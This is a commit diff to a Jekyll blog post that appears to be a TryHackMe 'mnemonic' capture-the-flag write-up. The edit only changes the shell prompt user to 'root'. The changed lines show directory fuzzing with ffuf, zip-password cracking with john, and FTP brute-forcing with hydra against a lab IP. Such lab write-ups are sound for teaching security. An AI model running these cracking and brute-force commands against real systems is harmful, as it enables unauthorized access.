

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-10-01-mnemonics-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 2183 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2020-10-01-mnemonics-writeup.md

````diff
--- a/_posts/2020-10-01-mnemonics-writeup.md
+++ b/_posts/2020-10-01-mnemonics-writeup.md
@@ -86,7 +86,7 @@ backups                 [Status: 301, Size: 327, Words: 20, Lines: 10]
 
 So let's enum more.
 
- argenestel@parrot  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/backups/FUZZ.zip
+ root@parrot  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/backups/FUZZ.zip
 
         /'___\  /'___\           /'___\
        /\ \__/ /\ \__/  __  __  /\ \__/
@@ -120,7 +120,7 @@ Ahh the zip seems encrypted.
 So john have script which converts zip to john hash format and john can crack that.
 
 ```bash
-argenestel@parrot  ~/Desktop/tryhackme/mnemonic  john --wordlist=/usr/share/wordlists/rockyou.txt john.hash
+root@parrot  ~/Desktop/tryhackme/mnemonic  john --wordlist=/usr/share/wordlists/rockyou.txt john.hash
 Using default input encoding: UTF-8
 Loaded 1 password hash (PKZIP [32/64])
 Will run 4 OpenMP threads
@@ -135,7 +135,7 @@ In zip we can see user info and get username.
 Now Bruteforce the ftp pass.
 
 ```bash
-argenestel@parrot  ~/Desktop/tryhackme/mnemonic/backups  hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.148.195
+root@parrot  ~/Desktop/tryhackme/mnemonic/backups  hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.148.195
 Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
 
 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-28 16:20:23
````
